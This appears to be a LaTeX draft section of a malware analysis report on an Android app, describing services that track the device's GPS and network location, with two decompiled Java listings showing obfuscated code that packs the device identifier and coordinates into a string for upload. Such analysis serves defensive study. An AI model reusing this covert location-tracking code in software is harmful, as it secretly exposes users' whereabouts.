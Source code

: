 \documentclass[10pt,titlepage]{article}
\begin{document}
\newpage
\subsubsection{LOCATION TRACKING} \label{locationtracking}
The service \textit{naqsl.ebxcb.exu.ServiceGeolocationGPS} and \textit{naqsl.ebxcb.exu.ServiceGeolocationNetwork} are Services intended to track the Location of the device. Both services are implementing a \textit{android.location.LocationListener} (see Listing \ref{locationchangedlistener}), asking for Runtime permissions like \textit{android.permission.ACCESS\_FINE\_LOCATION}, call the function \textit{android.location.LocationManager.requestLocationUpdates()} and send the results via the function \textit{naqsl.ebxcb.exu.Cint.fddo(Context context, String str, String str2)} (see chapter \ref{screenshot}, Listing \textit{locationifdf} and Listing XX(the function)XX.

\begin{lstlisting}[label=locationchangedlistener,caption=The \textit{onLocationChanged} function calls ifdf which is intended to send the data to a Web server.,frame=tb]
    class fddo implements LocationListener {
        fddo() {
        }

        public void onLocationChanged(Location location) {
            ServiceGeolocationGPS.this.ifdf(location);
        }
        [...]
\end{lstlisting}


\begin{lstlisting}[label=locationifdf,caption=The function ifdf encodes the location information to a \textit{String} and passes it as argument to the function \textit{naqsl.ebxcb.exu.Cint.fddo(Context context, String str, String str2)},frame=tb]
    public void ifdf(Location location) {
        if (location != null && location.getProvider().equals("gps")) {
            Cint intR = this.f580fddo;
            String str = Cint.m430int("NQ==");
            StringBuilder sb = new StringBuilder();
            sb.append(Cint.m430int("cD0="));
            Cint intR2 = this.f580fddo;
            StringBuilder sb2 = new StringBuilder();
            sb2.append(this.f580fddo.fddo((Context) this));
            sb2.append(Cint.m430int("Og=="));
            sb2.append(fddo(location));
            sb2.append(Cint.m430int("OkdQUzo="));
            sb.append(intR2.m439for(sb2.toString()));
            intR.fddo((Context) this, str, sb.toString()); // intR is naqsl.ebxcb.exu.Cint
                       
        }
\end{lstlisting}
\end{document}
